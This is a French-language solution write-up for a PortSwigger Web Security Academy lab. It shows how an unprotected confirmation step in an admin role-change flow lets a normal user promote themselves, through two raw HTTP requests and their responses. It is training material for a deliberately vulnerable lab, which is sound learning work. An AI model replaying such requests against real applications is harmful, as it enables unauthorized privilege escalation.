 # Lab

https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step

## Solution

Ce lab possède un panel d'amin permettant de gérer les rôles des utilisateurs.

Quand on veut changer le rôle d'un utilisateur, il y a deux étapes :

1. Sélectionner l'utilisateur
2. Valider le changement de rôle

La première étape est protégée par un contrôle d'accès, mais pas la deuxième.

### Séléctionner l'utilisateur

```http
POST /admin-roles HTTP/2
Host: 0a4000fd0423a588813017ba00830083.web-security-academy.net
Cookie: session=9urCNOo4mf4b15wY2NGicFal8z9XDMKt
Content-Length: 30
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://0a4000fd0423a588813017ba00830083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a4000fd0423a588813017ba00830083.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

username=wiener&action=upgrade
```

```http
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

### Valider le changement de rôle

```http
POST /admin-roles HTTP/2
Host: 0a4000fd0423a588813017ba00830083.web-security-academy.net
Cookie: session=9urCNOo4mf4b15wY2NGicFal8z9XDMKt
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://0a4000fd0423a588813017ba00830083.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a4000fd0423a588813017ba00830083.web-security-academy.net/admin-roles
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

action=upgrade&confirmed=true&username=wiener
```

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```